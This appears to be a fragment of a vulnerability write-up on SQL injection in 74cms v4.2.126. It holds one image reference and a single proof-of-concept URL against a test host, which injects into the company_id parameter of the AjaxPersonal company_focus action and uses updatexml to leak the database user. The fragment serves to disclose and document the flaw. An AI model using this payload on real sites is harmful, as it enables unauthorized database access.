 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId39.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
